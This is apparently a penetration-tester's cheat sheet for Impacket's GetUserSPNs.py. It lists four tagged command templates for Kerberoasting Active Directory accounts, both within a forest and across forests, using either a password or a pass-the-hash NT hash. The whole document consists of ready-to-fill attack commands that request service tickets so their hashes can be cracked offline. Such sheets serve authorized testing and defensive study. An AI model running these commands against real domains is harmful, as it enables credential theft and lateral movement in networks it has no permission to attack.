 # GetUSERSPN (imp)

% impacket-kerberos, windows, kerberos, 88

## kerberoasting - intra forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```


## kerberoasting (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> -hashes :<nt_hash> '<domain>/<user>'
```

## kerberoasting - cross forest (user account)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <target_domain_fqdn> '<domain>/<user>:<password>'
```


## kerberoasting - cross forest (pth)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -target-domain <target_domain_fqdn> -hashes :<nt_hash> '<domain>/<user>'
```